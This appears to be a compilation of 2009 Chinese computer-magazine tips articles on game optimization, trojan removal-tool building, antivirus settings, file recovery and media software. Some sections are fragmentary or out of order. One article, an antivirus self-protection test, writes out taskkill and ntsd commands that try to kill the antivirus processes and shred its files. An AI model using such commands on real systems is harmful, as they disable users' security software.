- 第1步：如果你用的是AMD的CPU，那可以安装AMD Fusion for Gaming（下载地址：http://work.newhua.com/cfan/200916/amdxf.zip），运行软件后，启动后只有一个简单的圆形按钮，点击即可按照默认配置文件对系统进行优化。当然也可以进入高级模式自行设置，还可以通过它直接启动OverDrive软件和催化剂驱动中心（如果安装了的话）。

- 第2步：如果用的是Intel的CPU，那我们可以跳过第一步，直接运行游戏性能优化工具GameThrust（下载地址：http://work.newhua.com/cfan/200916/gt.rar），运行后，选择操作系统、网络适配器类型，单击“执行”即可完成游戏性能优化。

- 第3步：现在网络游戏很流行，但是由于各种原因，游戏的速度很慢，使用巡游（下载地址：http://www.xunyou.com/）进行加速。先注册一个巡游账号，然后进行登录，在软件窗口中选择游戏，并选定游戏分区，单击“启动加速”就可以了。

如果你想知道自己的电脑能否顺畅运行盛大的游戏，可以使用盛大硬件检测工具（下载地址：http://work.newhua.com/cfan/200916/ycjc.rar）进行诊断。先在游戏诊断下拉框中选择喜欢的游戏，点击“立即诊断”，一个专业报告就诞生了。在下面软件还给出了其他游戏的结果，告诉你可以在哪些游戏里，可以基本运行哪些游戏等。

居安思危 账号安全要确保

好不容易把自己的电脑调教好了，游戏也玩爽了，当你潜心游戏时别忘了安全的重要哦！居安思危，为了防微杜渐，必须时时刻刻爱护账号安全。

- 第1步：安装360保险箱（http://www.skycn.com/soft/38592.html），360保险箱会自动检测电脑里的游戏，如果游戏是非安装版的，可以在运行360保险箱后，在“账号保护”一项下单击“添加软件”，找到游戏的EXE文件进行添加，这样每次登录游戏时都会检测是否有盗号木马、键盘记录程序等威胁，防止由于账号丢失导致的虚拟资产和真实资产受到损失。

- 第2步：对于QQ游戏，我们可以使用专门的QQ游戏木马专杀工具（下载地址：http://work.newhua.com/cfan/200916/qqzs.rar），保护你的安全下载地址。QQ游戏木马专杀工具是腾讯公司专门针对QQ游戏开发的免费木马查杀工具，他里面还有个木马专杀工具修复功能。可惜现在只针对《地下城与勇士》，不过对于该游戏有问题的人也是福音。

希望大家经过上面的四步设置，你和你的游戏能过上真正的如胶似漆的甜蜜生活。我想你一定会更加大声地说：“游戏，游戏，我爱你”。

在玩游戏前要到网络上或游戏论坛里逛逛，可以发现很多游戏玩家提供的游戏人物的地址，方便于以后做任务。而对于单机游戏，更是可以找到有用的出招列表。另外，如果用笔记本电脑玩游戏，那么外接键盘是必须的了，再好的散热系统，玩大型游戏也是会让笔记本发烫的。（陕西/韩宝玉）

# 能宰牛就能杀鸡 用电脑听“无线广播”

“收音机”已经逐渐淡出我们的生活，但无线电波并没有绝迹，很多优秀的电台依然非常受欢迎，悦耳的声音载以精心编排的节目，成为喧嚣生活中调剂心灵的“小点心”。收音机没了，电脑来了，很多人就开始想用电脑来听广播节目。各家广播电台倒也聪明，在线收听迅速跟进，不过这样就缺少一个统一的收听平台，这个问题的解决就要请出本期的主角——龙卷风网络收音机了。

龙卷风网络收音机
开发者：龚瑾
开发语言：Delphi
软件性质：免费软件
支持平台：Windows 2000/XP/Vista
下载地址：http://www.cradio.cn

# 电台不老情 奋斗不停歇

龚瑾是一名地地道道的电脑爱好者，1997年他读到中专的第二年，刚刚在学校学会打字，他就忍不住了，课余时间自学Foxbase、C语言编程，后来还进入软件公司做过软件开发。2000年，龚瑾又和同学合办了一家电脑培训公司。也正是在这里，他的电脑第一次连上了ADSL网络，这也给他带来了新的思考。那时，打开电脑的第一件事就是开Winamp听歌，天天同样的MP3确实很无聊，又懒得找歌，后来他发现有一个小软件可以听电台，不过只收录了几个电台，并且不太好用。这次他更忍不住了，毅然决定用自己最喜欢的Delphi编写一个更实用的、更好用的“收音机”。

熟悉语言和编写一个实用软件是两码事，他只能自己摸索着做，两个月后第一个版本就发布了。之后为了完善软件，不断更新版本，到现在已经是第9个年头了。最让他难忘的是2000年到2002年那段不规律的生活，经常写程序写到三更半夜，在凌晨去吃昨天的晚饭。甚至在2007年，他还重写了软件的大部分代码。这样的付出，也没有让他改变软件的免费路线，哪怕需要自己另做工作来获得收入，做软件为的是听电台的乐趣，也只有这份乐趣能让他为此奋斗九年。

在龙卷风网络收音机的网站上除了看到简单的两个广告外，我们还看到了用户赞助的信息，这些都是使用者自愿付出的，从几十到几百，虽然这和他为软件的付出相比微不足道，甚至不足以支付租用服务器的费用，但他很欣慰，因为他看到原来还有不少人愿意为自己喜欢的软件掏钱，更重要的是，无论多少，都是一份沉甸甸的支持。

采访的最后龚瑾告诉记者：“现在网络收音机的原理很简单，说白了就是用软件去和各家电台的网站做数据接口，用的是播放器的核心。我一直想做的是实现P2P模式，让播放更加流畅，等有时间了，一定做出来。”

# 常听 常用 随意编排

打开龙卷风我们看到的是一个漂亮而简洁的界面，按下数字键就可以切换到对应的电台了。当然这还不太方便，接下来我们就把自己最常听的电台变成数字键1、2、3……

第一步：打开龙卷风，在右侧的电台列表中右键单击，将“单击模式”去掉，变成双击模式，方便编辑电台数据。
第二步：在列表中找到自己喜欢的电台，如：中国之声，右键单击，选择“关联到数字按钮”，然后会弹出一个设置对话框，在“频道号”中选择需要设置的频道，如“1”，然后依次单击“设置”。
第三步：设置完第一个，不用退出频道设置窗口，直接用鼠标单击下一个你喜欢的电台名，窗口就自动选择好了，直接调整频道号，单击一下“设置”就好，最后单击“关闭”退出，以后直接按数字键选择电台就可以了。

小提示：
- 如果你有特别喜欢的电台，可以直接在列表中搜索，右键单击，选择“查找”，在下面勾选“模糊”，并根据当时的位置选择好向上查找还是向下查找，单击“查找”就可以了。

# 能播 能报 能关机

拥有龙卷风，你不单单是可以听网络电台，它给你的远比你想的要多。单击数字键旁边的“MP3”，软件就切换到播放器模式了，单击右侧的“添加”可以将某一首歌添加到播放列表中，单击“填组”打开浏览窗口可以直接添加存放歌曲的目录。

对于报时，你想过很多小工具吧！龙卷风就可以，右键单击，选择“参数设置→常规”，勾选“自动语音报时”，后面指定报时的间隔，例如“30”分钟，最后单击“应用”，这样以后每到半点就会自动报时了，提醒你时间。而且在上面我们还可以看到自动关机的选项，如果勾选“在指定时间自动关闭时间”，并在后面设置具体时间就可以了。

小提示：
- 听到好听的界面，可以单击“录音”，将界面录制下来保存为MP3文件。

(本刊记者/白斌)

# 会打字就会写工具 专杀工具你自己就能做

“专杀工具”这个词，你想到的时候也只是问哪里有下载吧！制作专杀工具往往都被称为“神话”。其实不然，几步操作下来，你也可以做成一个专杀工具。而仅需AVEng (下载地址：http://work.newhua.com/cfan/200917/aveng.rar) 来帮忙！

### 实例 1：制作灰鸽子专杀工具

灰鸽子有很多变种，以防黑专版为例，首先利用上一期介绍的工具SREng和SREng智能分析工具制作出电脑的分析日志，然后打开AVEng的文件目录，打开配置文件Virus.ini，该文件内容类似于HTML语言，根据内容填写配置文件中的文字就可以了。

第一步：首先在[INF]段填写有关专杀工具的版本、版权等信息，可以随便填写，这里将Title和Name都修改为“黑防灰鸽子专杀工具”，其他的不修改就好了！
第二步：日志提示我们C:\Windows\hacker.com.cn.exe没有删除，那么我们的专杀工具就要来删除它。在[INF]这一段文字的下面是[VIR]段，这里填写要删除的文件，首先将配置文件默认的项目删除，然后在[VIR]与[/VIR]之间输入%windir%\hacker.com.cn.exe。
第三步：分析日志提示我们[GrayPigeon_Hacker.com.cn/GrayPigeon_Hacker.com.cn]服务没有跳过，也就是说该服务没有删除，在配置文件中往下找到[SER]区段，删除[SER]与[/SER]之间原来的字符，输入%serdel%GrayPigeon_Hacker.com.cn，输入提示后面的服务名，把其他默认的配置信息删除！然后保存文件，运行AVEng.exe! 这样一款灰鸽子专杀工具就制作完成了! 留着自己用或者分享给朋友都可以。

### 实例 2：制作 NS 远控专杀工具

远程控制是黑客至今都在用的手段，下面我们就来对付NS远控木马，步骤与上面的操作类似，打开Virus.ini文件，要修复IFEO映象劫持和文件关联，我们不需要在[REG]段修改相应的注册表键，只要找到[COR]区段，将IFEO和ASSOC后面的值设置为TRUE就可以了 (这个区段中的内容TRUE表示要进行修复，FALSE表示不进行修复)，保存文件，运行AVEng.exe, 一个专杀工具又完成了。

小编物语：这个制作工具其实就是指定一些删除文件、修复系统的操作，制作过程就是填写virus.ini文件（在Virus.ini文件中有详细的说明这里不再赘述），专杀工具制作的关键是获得相关的木马或者后门信息，然后我们来确定要做哪些操作。当然这样制作的工具的作用是有限的，我们必须清楚知道某一病毒所需的所有确切操作，功能还是比较局限，但是对于我们菜鸟来说也算是得到了DIY的乐趣！对付小病毒绰绰有余。

小提示：
- 测试工具是笔者修改的一个木马程序，添加了一些恶意代码，包括IFEO（映象劫持）、文件关联恶意修改及Rootkit功能。Rootkit的主要功能是替换系统的lprip.sys文件，但是针对该类木马或者病毒的修复使用该工具很难制作出专杀工具！

(文/菜虫)

# 清理垃圾 3分钟赢得红颜一笑

今天接到老同学苏珊的电话，说她的电脑运行速度越来越慢，打开个PPT也要好久，知道笔者是个电脑高手，想让笔者帮忙解决。苏珊可是单身美女，今天主动找过来说明还是有机会呀，得嘞，马上去解决。问题当然是大众化的了，就是长时间没有进行电脑清理了。既然美女在场，那就要用最快的方式，用超级兔子清理！

第一步：依次点击“超级兔子→工具→清理天使”，选择“痕迹清理”，看着软件左上角的系统洁净评级不到40的洁净度，笔者一阵汗颜，在左下角“选择清理设置位置”打钩，无论是IE相关的使用残留，系统使用痕迹，还是软件使用痕迹都被选中了。苏珊说想保留“另存为”的设置习惯，没问题，取消另外保存为的“钩”，最后单击“一键清理”。
第二步：切换到清理天使的“清理文件系统”，在软件左下角选择需要清理的盘符，单击“扫描”，扫描后选择“手动清理”，在右侧可以看到文件名称、个数、大小等系统垃圾文件信息。应主人要求，有不需要删除的文件，点击“显示详细信息”把不需删除的文件勾选去掉即可。如果怕麻烦，直接勾选全部位置，扫描后点选自动清除就全部删除了。
第三步：依次点击“清理注册表→扫描→清理”，按软件提示的信息，将冗余的动态库、无效的反安装信息等垃圾直接从硬盘中清理掉。这样，系统就清理干净了吧？没有，别忽视了那些隐含的IE插件和卸载软件时留下的残留文件，这些就要靠超级兔子专门的工具——“专业卸载”了，单击“专业卸载→扫描”，检测一下安装过的IE插件和软件残留的文件，单击下方的“清理”就可以了。至此美女的系统就清理干净了，美女用着清爽的电脑对你微笑了吧！

小提示：
- 自动清理的规则也是可以自己设定的，单击“设置中心→通用清理规则设置”，在右侧可以看到控制清理文件的规则，通过是否进行勾选各项设置就可以调整软件自动清理的策略了，例如可以勾选上“.dmp”让超级兔子在清理电脑时自动将内存转储文件删除掉。在上方的文本框中输入需要清理的特定文件的格式扩展名，如“*.jar”，单击“添加”就可以把这个类型的文件作为垃圾文件删除。而删除的方式也是可以指定的，单击左侧的“清理方式设置”，在右侧选择是否经过回收站，最后单击“保存”完成设置。

# 莫让最近的东西变成最远的障碍

### 实例1 刚打开的文件哪去了

对于刚刚使用过的文件,这很好办,几乎所有的软件都提供了显示最近使用过的文件的历史记录功能,如系统自带的“画图”单击“文件”菜单,在其下端便可看到最近打开过的文件。

小提示: 另外对于打开的文件,在Windows系统中也会留下一个记录。单击“开始→文档”,是不是看到“文档”下显示出很多你打开过的文件名了?单击它们便可迅速打开它们喽。

对于时间稍长的曾经使用过的文件,我们可以通过系统自带的“搜索”功能来找到。如果连文件名都不知道,那么也不需要慌,只需运行一下RecentFilesView(下载地址:http://work.newhua.com/cfan/200917/zjwj.zip),你最近打开的文件就显示出来了,它自动屏蔽了临时文件和缓存文件,双击“文件名”就可以让结果按格式排列,很容易就找到最近打开的文件了。

小提示: 当然也有些最近使用的东西是我们不想让别人看到的,我们也要找到它,清除掉。最近搜索的关键字可以用MyLastSearch( http://work.newhua.com/cfan/200917/zjss.zip )来快速清除。

### 实例2 聊过的信息还有吗

如今IM软件在日常生活的地位越来越重要,很多重要的信息都在聊天记录中,如此以来,我们也就常常要从聊天记录中搜索信息,前几天聊的东西怎么找到呢?

QQ的话是很方便的,直接启动消息管理器,利用关键字搜索即可,直接可以查看前后的聊天信息。那么Windows Live Messenger怎么办呢?自然有工具可以给你了。

第一步: 运行MSN历史记录查看器(下载地址:http://work.newhua.com/cfan/200917/msn.tar),单击左上角的“苹果”按钮,选择“导入文件夹”,选择MSN聊天记录的保存位置,单击“确定”后软件开始将聊天记录导入进来,在“关键字”一栏输入要查找的聊天记录关键字,例如为了找一次谈及“分卷压缩”的聊天记录,就在文本框中输入“分卷压缩”,然后单击后面的“搜索”按钮,下面就出现了关键字的聊天记录。
第二步: 有时候这还不够,因为它不如QQ智能,我们需要的是前后的聊天记录,那就要再做下调整。在上面的搜索结果中,我们看到了聊天记录的时间,记下来,例如是2009年6月18日,然后单击软件上面的“选择日期”后的下拉箭头,选择2009年6月18日,关键字部分取空,然后单击“搜索”按钮,下面就出现了这一天的聊天记录,前后信息就在这里了。

小提示: MSN的聊天记录最好指定在别处,在菜单栏选择“选项→消息”,在“在此文件夹中保存我的对话”后单击“更改”,将聊天记录保存在其他磁盘即可,新装系统只需重新制定下这个目录,聊天记录就回来了。

### 实例3 以前的邮件好找吗

如果你是办公一族,你肯定有这样的烦恼,邮件那么多,想找和某一个人的特定邮件怎么找呢?如果你用的是Foxmail,那就简单了,当选择某个联系人的邮件后会在窗口右侧自动显示与该联系人的往来邮件和附件,但你如果使用Koomail或是Outlook来收信,如何查看往来邮件呢?

1. Outlook 2007 在Outlook 2007的主窗口中选择“联系人”组,双击目标联系人项,在打开的窗口中的“显示”标签中单击“活动”按钮,在下拉列表中选择“电子邮件”选项,Outlook便会开始搜索,搜索完毕后就会自动显示所有的往来邮件了。

小提示: 在Outlook 2003中,切换到“联系人”视图,双击想要查看的联系人信息,打开联系人对话框中的“活动”标签,在此便会罗列出曾经与此联系人相关的所有活动信息,包括邮件往来、约会事件。

2. Koomail 在Koomail中需要做一些操作,如果你要从与某一位好友的近期邮件中查询信息,那么首先需要在它的某一邮件上右键单击,选择“添加到地址簿→将发件人添加地址簿指定组”,然后指定要加入的地址簿小组,单击“确定”,然后在左下角的地址簿里找到该人的名字,单击一下,右侧就会出现所有与他的往来邮件了。如果你要查看往来的附件,那么只需单击“工具→附件管理”,所有的附件就又出来了。

### 实例4 最近电脑咋用的

打开电脑,启动软件,我们做的再平常不过了,如果要问你使用哪个软件最多,想找个同类软件的最好的,又要翻半天吧!你看这样就快多了。

第一步: 登录http://wakappa.com/(网站不支持非IE浏览器。),单击“SIGN UP&START TRACKING!”(注册并体验),依次输入用户名、密码和邮箱后单击“sign up (注册)”
第二步: 单击“Get The Tracker(下载追踪软件)”,将客户端下载到本地并安装,然后用刚注册的账号登录,之后任务栏就出现了软件的图标,并添加一个自启动(这个要允许),软件就开始监控你的软件使用情况了,几天后你右键单击任务栏图标,选择Go to my profile(去看我的分析),浏览器自动打开http://wakappa.com/zuijinshi(zuijinshi是你刚注册的用户名)就可以看到软件帮你分析的结果了,你会知道你最常使用的软件或网络应用是什么,通过标签你可以看到在同类软件中还有哪些同类产品。

(河北/李丽)

# 快乐不短暂 绿鹰安全精灵随你左右

如果搜索“木马扫描”这个关键词,你会看到很多安全辅助类软件,这些工具要么功能单一,要么只是实现辅助的小功能,但绿鹰安全精灵却不同,它对木马的查杀达到了专业杀毒软件的水平,软件应用“主动防御”技术的时间比微点还早,如此高端的软件背后肯定有着不为人知的故事。

### 张成

专业:计算机及应用 职业:软件系统分析员 毕业时间:2001年06月 软件作品:绿鹰安全精灵(绿鹰PC万能精灵) 绿鹰网马盾(绿盾)等
绿鹰安全精灵
开发者:绿鹰工作室
开发语言:C++语言
软件性质:免费软件
支持平台:Windows 2000/XP/Vista/7
下载地址:www.cnlyker.com

### 土生土长的安全专家

由于安全软件的特殊性,大家基本可以想到,绿鹰安全精灵的开发作者肯定不会是从零开始。事实上,2001年大学毕业后,张成进入软件公司工作,适逢公司的业务恰好是安全测试方面的,负责编程的他也逐渐加深了对木马的了解。虽然当时国内杀毒软件已经有了几年的发展,不过对木马查杀的效果并不好。工作上,他测试了相当数量的木马样本,对木马的了解逐步加深,两方面的结合让他萌发了自己编一个木马查杀工具的念头。

张成在开发过程中遇到了很多困难,那时他基本上是“现学现卖”,遇到问题就查资料,请教公司的技术高手,而且有些资料国内没有公开,他就到国外的技术网站“啃”资料。

后来,周围的四个朋友也加入进来,组成了5个人的小团队,半年后绿鹰PC万能精灵1.0(后改名为绿鹰安全精灵)出现在华军软件园上,下载量曾一直保持在华军系统安全的第一位。

当时,杀毒软件对木马的检测还都处在特征码对比上,而绿鹰PC万能精灵则依靠监控异常进程、非法端口以及键盘的非法监控程序来检测木马,结合实验室得来的样本测试数据,软件在查杀上采用了木马特征行为的检测,这也就是现在大家所说的主动防御技术,当时没有其他软件采用这种技术,木马查杀效果出色,一度成为大家对付木马的首选工具。

出色的技术让张成也开始在安全业界小有名气,有安全软件公司想请他做研发,张成笑谈:“我这人比较懒,上班估计不太适应。”其实更多的原因是放不下自己的软件。不过,这句话体现出来的性格是很明显的,而且5个人都几乎是如此,他们这样描述自己:“希望做自己喜欢的事情,渴望成功,不喜欢碌碌无为。”

从技术上来说,绿鹰安全精灵有很大的发展前景。8年以来,软件没有很大的提升一直令他们忧虑,张成坦言:“我们5个人大多是技术出身,运营模式的把握不够细致,错失了很多机会。”目前,他们5个人还处在工作室的状态,组建公司,赢得更大的发展已经被提上新的议程。

### 小精灵 维护系统多面手

电脑使用起来,问题最多的就要算系统了,不知道哪天就蹦出个问题来。出了问题怎么办呢?启动绿鹰安全精灵,单击“系统修复”,几乎所有常见的所有故障都在这里了,先取消“全选”,然后勾选出现的问题,单击“开始修复”就可以了。在下面,还可以看到系统或IE的右键菜单,对于不常用的选项,在这里就可以勾选后,进行统一删除了。而反过来,如果要进行系统的小功能优化,单击“Windows精灵”,进行设置就好了,定时关机,管理多启动,样样精通哦!

### 组合防御 网络安全不放松

如今,电脑的安全威胁主要来源于网络。那么电脑上正在进行的网络传输就要注意了,绿鹰安全精灵这点做得很不错。

第一步: 首先在主界面勾选“网页防火墙、木马防火墙”来做好整体的自动防御。
第二步: 单击“网络服务”,在网络监控对话框里我们就可以看到电脑正在进行的网络服务了,遇到不该有网络服务的进程,选中后单击“结束进程”就好了。如果遇到不放心的网站,将其域名输入到上面的“域名或IP”后的文本框,单击“查看Google评级”,后面就有它的安全级别了。
第三步: 最后单击“查看共享”,就可以看到你电脑里已经共享的文件,连你自己也不清楚吧!如果没有正在使用共享文件,选中后单击“停止共享”,由此网络方面的安全也就做好了。

(本刊记者/白斌)# 网络电视录像机 我的精彩不错过

娱乐不等人，各种比赛、娱乐节目播出的时间很可能与工作、学习、休息产生时间冲突，问题也就随之而来：过去有录像机，现在电视卡多数也带有软件录制功能，但我想录制网络电视的节目，怎么办呢？

时间为2008-08-20 15:52，录制时长为60分钟以及选择默认的录制文件保存位置，都设置好之后点确定，就可以放心干其他的事情去了。

并设置为比当前播放频道的码率稍大（25%左右）即可，在此我们设置为500kbps。然后选择“录制目标→窗口→选择窗口”选择需要录制的播放器窗口。最后切换到“声音”页面，点击“录电脑中播放的声音”。由于节目源的声音效果很一般，所以使用默认的设置即可。

## 自带录像功能的UUSee

使用UUSee网络电视（下载链接：http://www.newhua.com/soft/44708.htm）中自带的录制功能就能实现，并且还可以实现预约录制。

第一步：打开UUSee网络电视，在完整模式（在查看中选择完整模式）点击媒体库，选择“新建录制”。

第二步：在弹出“录制任务”对话框之后可以选择录制频道，我们选择“北京体育”，设置录制开始时间

## 专家在手，以不变应万变

如果你不愿意使用UUSee，或者只有其他网络电视软件才有你想看的节目，那么你可以使用“屏幕录像专家”（下载地址：http://work.newhua.com/cfan/200917/pmlx.rar）录制电视节目。

第一步：依次打开屏幕录像专家和网络电视软件，并播放想要录制的频道，如用pplive打开上海东方卫视。

第二步：在“基本设置”页面中的录制生成格式中选择“WMV”，然后在设置中选择“固定码率”

第三步：点击录制按钮，开始录制。录制后的文件会默认保存在软件安装目录下的ls文件夹里，如果想保存到其他位置，可以在“基本设置”页面中更改。在软件左侧也可以看到已经录制的文件。

### 小提示：

由于定时录制不支持窗口模式，为了减小生成文件的体积，可以在“基本设置”页面中选择“范围”并点击“选择范围”确定需要录制的范围。录制一小时的节目平均需要200MB左右的空间。

# 要当警察 先穿防弹衣——瑞星防御攻击测试

谈起自我保护，作为杀毒软件如果自我保护做不好，如何保护电脑安全呢？前两期我们已经带大家一起了解了瑞星2010的一些基本功能。今天，我们就来一起体验一下瑞星2010版的“自我保护”能力（测试系统：Windows XP SP3，杀毒软件版本：RAV 2010 22.02.03.02）。

## 实例1 抗拒“自杀命令”

首先，我们通过wsyscheck（下载地址：http://work.newhua.com/cfan/200917/wsy.zip）这款工具了解到瑞星杀毒软件的PID号为：5684、1272、4840。然后通过CMD命令尝试结束瑞星进程。提示符结束进程。

第一步：首先点击“开始→运行”，输入cmd，接下来使用taskkill命令来尝试杀死瑞星杀毒软件进程。输入taskkill /pid 5684 /pid 1272 /pid 4840 /t然后回车，命令结果显示成功！但是杀毒软件并未被结束，且杀毒软件自我保护也未报警，但杀软运行正常，任务管理器也可看到杀软进程。

第二步：再使用ntsd命令来尝试结束杀毒软件进程。分别输入3条命令并回车：

```
ntsd -c -q -p 5684
ntsd -c -q -p 1272
ntsd -c -q -p 4840
```

每输入一条命令都要按下“回车”，这时瑞星杀毒软件的自我保护都会报警，没有结束掉杀毒软件的进程，看来第一回合的对抗测试中瑞星胜利了。

## 实例2 防御“文件轰炸”

建立文件夹：打开CMD命令提示符，进入瑞星的Rav目录，输入md Rav，即在Rav文件夹下建立一个名为Rav的目录，结果显示拒绝访问！瑞星报警！

粉碎文件：利用狙剑snipesword（http://www.newhua.com/soft/60141.htm）的磁盘文件管理功能，进入到瑞星Rav目录，然后随便找一个文件，右键单击选择“粉碎文件”，结果失败，瑞星报警！再换用wsyscheck测试，瑞星也报警！

看来，瑞星杀毒软件2010在自我文件保护方面非常不错，很大程度防止了病毒通过破坏杀毒软件文件来使杀软瘫痪！希望瑞星能继续保持哦！在驱动级保护上期待瑞星近期的更新。

### 小提示：

结束软件最简单的方法就是任务管理器了，选中杀软进程，点结束进程，结果自我保护报警。另外，冰刃、狙剑目前可以结束瑞星进程。但最近瑞星研发工程师的公开信明确回复了，说他们最近正在解决此问题，或许过些天后，瑞星2010版就可以成功防御冰刃等驱动级工具结束进程等操作了。

（瑞星安全工程师/威子）

# 小心点别以为扫描完了就完了

有不少读者以为安装一个杀毒软件就可以高枕无忧了，或者是认为利用杀毒软件进行了查杀，就可万事大吉了。其实这都是错误且很危险的认识，装上杀毒软件在进行扫描完成之后，你还有事情得注意处理。

## 一、瑞星篇

在默认情况下，瑞星扫描时在发现每一个病毒时都会弹出一个对话窗口，以让我们进行处理，我们可以根据情况勾选“下次还这样”栏，再单击相应的处理方式按钮，如“清除病毒”，这样就不会再弹出这种窗口来让我们进行处理了。

但是如果杀毒失败，这就会给我们带来隐患。因此我们可以进行一些设置来得到更好的保证：在主窗口单击“查杀设置”按钮，在新窗口左栏选择“详细设置”，然后在右栏“处理方式”下分别对“发现病毒时”、“杀毒失败时”、“隔离失败时”、“杀毒结束后”进行选择设置（见图1）。



## 二、诺顿篇

利用诺顿扫描完成后会在“结果摘要”中会显示查杀情况，如果提示“需要注意的项目总数”不是零，那么则需切换至“需要注意”标签栏，在“操作”列中对其中的高风险文件选择操作方式，如“删除”，再单击“确定”按钮进行病毒文件删除（见图2）。



如觉得这样麻烦，那么就干脆进行一些设置修改。在诺顿主窗口单击“设置”，在“压缩文件扫描”栏中将“删除受感染的压缩文件”设置为“打开”。不过需要注意的是开启此功能后，如果发现某个压缩文件中的任何文件受感染，都会将整个压缩文件包给删除，这也意味着里面的未感染病毒的文件也会被删除。

在主窗口切换至高级模式并单击“显示所有高级设置”

再在“设置”窗口左栏选择“文件系统实时防护”，然后在右栏单击“设置”按钮，选择好“处理威胁”任务后，将右栏“清除级别”滑块往右拖动，使其更改为“严格清除”（见图3）。



## 三、ESET NOD32篇

利用ESET NOD32扫描后，如弹出一个发现威胁的警告窗口，那么一定得注意还有病毒未能被自动清除呢。我们除了可以在警告窗口中相应的病毒名称后“操作”栏中单击下拉箭头选择操作方式，如“清除”，最后再单击窗口底端的“执行”按钮。

如希望杀软为我们自动进行清除处理，则可

## 四、卡巴斯基篇

在卡巴斯基默认设置情况下进行查杀病毒，当发现病毒时也会弹出一个处理的提示窗口，特别是对于无法清除的病毒，还会推荐你进行删除，同时勾选下端的“应用到全部对象”还可给我们省去重复操作的麻烦。

而卡巴斯基虽然可以扫描出加密文档是否带病毒，但它并不能对加密文件进行处理，因此我们可以进入扫描报告中，在“结果”栏非“已删除”或“已清除”的对象名称上单击鼠标右键，在弹出菜单中选择“打开存放原始文件的文件夹”来找到这个对应文件，进行解压杀毒或直接删除该加密文档。

（湖南/宝贝浩宇）

# 傻瓜刻视频，简单做恢复

自己拍了一大段视频，想要剪辑视频却犯了愁，想要一个“傻瓜”一些的软件？那么nero9是一个非常不错的选择，想要找回被删除的文件？nero9强大的数据恢复功能让这一切变得简单。

# 视频剪辑、刻录一次搞定

自拍视频越来越多，后期总免不了剪掉其中不满意的部分，进行重新编排，然后才会刻盘交给大家欣赏，这一系列动作你要换多少软件？其实一个NERO 9就搞定了！

第一步：在Nero StartSmart中选择“创建和编辑 → 创作、编辑和采集视频 → 制作电影”，将视频添加到“我的媒体文件”中后，就可以将素材按照顺序拖动到“时间线”中进行编辑。

第二步：由于录制视频的时候出现了失误，需要将视频中的一部分删除，这时可以使用“剪切工具”。点击“剪切工具”然后拖动视频监视器下方的播放进度条，拖动播放进度条左侧至想要剪去部分的起始点，拖动右侧到想要剪去部分的结束点，再次点击“剪切工具”即可完成剪切。

第三步：当所有编辑完成之后，点击“导出”，进入导出的设置界面，选择导出文件的保存位置和格式。本实例中由于素材视频采用的是720p格式的AVCHD编码，所以在“格式”中选择AVC，“配置文件”选择“兼容AVCHD”，然后点击“配置”按钮，在“大小”中选择1280x720。设置完成后，点击“导出”。经过一段时间的等待，就可以得到经过删减的视频了。

# 误删文件？别着急

每天盯着电脑，难保不头晕眼花，难保鼠标不点错。哎呀，我怎么把这么重要的文件给删了，怎么办啊？这篇文章白写了！快来帮帮我啊！误删文件后最重要的就是保持冷静，只要用正确的方法处理，找回文件希望还是很大的。现在用nero 9就可以完成恢复工作。

第一步：在Nero StartSmart中选择“备份 → 恢复数据”，然后在“要从中恢复数据的驱动器/媒体”中选择被删除的文件所在的磁盘分区，刚才被删的文件存储在D盘，选择D分区即可。由于刚刚删掉的是一个word文档，所以选择“快速扫描”，然后点击“下一步”。

第二步：点击左侧的“选择”和“显示”按钮，可以帮助你筛选与想要恢复的文件类似或相关的文件。勾选想要恢复的文件后，再选择“恢复目标位置”（放在桌面上——一定不要选择与被删文件相同的分区）。点击“下一步”。大功告成，在桌面上生成了一个新的文件夹，被误删的word文档又回来了！

# 别欺负菜鸟 记事本也能自动保存

大家都知道，WORD、WPS都具有自动保存功能，每隔一段时间就自动保存当前文档，为我们的工作带来了安全保障。但记事本呢？我就喜欢用这个。怎么办呢？那就请试试“记事本自动保存工具”（下载地址：http://work.newhua.com/cfan/200917/save.rar）吧，它能够让记事本也自动保存文档，并且最大可以保存9M的文本，足以应付咱们的日常工作。

第一步：首先运行AutoSave.exe，这时会弹出对话框，这里我们单击“是”。软件自动检测，你会发现记事本窗口的标题上已经多了一个“自动保存”的字样，软件也出现了。

第二步：单击“自动保存位置”后面的按钮指定文件保存文章，间隔时间呢可以设定为50秒，单击“开始”，你就放心大胆地录入文档吧。软件会按照设置时间自动进行保存。如果你嫌录入文档时自动保存软件的窗口碍眼，可以点击“隐藏”按钮，它便会隐藏窗体后台运行。想要出现窗体时，按快捷键F12即可。软件关闭也很简单，只要监视的记事本文档关闭，软件也随即关闭了。不过就是每次需要它时，你得手动开启哦！

# 小提示：

提示框的意思是软件会在后台等20秒，检测是否启动了记事本，如果有就会自动激活自动保存功能。如果检测不到记事本，就会提示你退出软件。

(文/夏从林)

# 独乐乐？众乐乐？RealPlayer SP随你

现在SNS网站很火，优酷等视频网站也很火，把有趣的视频分享给好友，把自己喜欢的视频传到手机上，自己独享，生活就是这么充满乐趣。

# 视频开心共享

这几天，心情不好，找段郭德纲的相声听听，听完一段，嗯，不错，应该让大伙都乐呵乐呵，分享到开心网去！

第一步：安装RealPlayer SP（下载地址：http://www.newhua.com/soft/90457.htm）。找到那段视频后会出现“下载此视频”的提示，点击即可开始下载。

第二步：将鼠标悬停在已下载的文件上时，点击开心网的图标即可打开开心网的登录界面，登录后将自动跳转到转帖页面，进行标题和评论等设置之后就可以点击“转帖”了，这时好友们就可以看到这个视频了。

开RealPlayer SP的“媒体库”页面，找到刚刚下载的那段相声，将文件拖到RealPlayer SP Converter中，然后在“转换为”中选择“手机→Palm Centro”（我的手机分辨率是320×240，最适合的配置是Palm Centro）。

第二步：这时右侧会出现“详细信息”的按钮，点击进入，在“视频详细资料”中的“格式、质量、分辨率”里分别选择3GP H.263，512 kbps（高），320×240，“音频详细资料”设置为默认即可。点击“确定”，然后点击“开始”，完成转换。

第三步：回到RealPlayer SP的“媒体库”界面，这时可以发现一个3GPP格式的文件，右键点击选择“定位文件”，将弹出窗口中被选中的文件复制到手机上就可以了。

# 小提示：

★RealPlayer SP Converter还支持AAC、Windows Media、RM、RMVB等格式的转换。
★低端手机（屏幕分辨率为176×220以下的）应在“转换为”选择“手机”，将转换视频的分辨率设置为“QCIF”；支持全屏播放，采用QVGA屏幕的手机选择Palm Centro。经过几次实验，发现转换中的“自动”选项是在可选范围内的自动调整，保证最佳质量和文件体积。

(文/林锐)

# 家庭聚会IE遭殃 兔子跑步来拯救

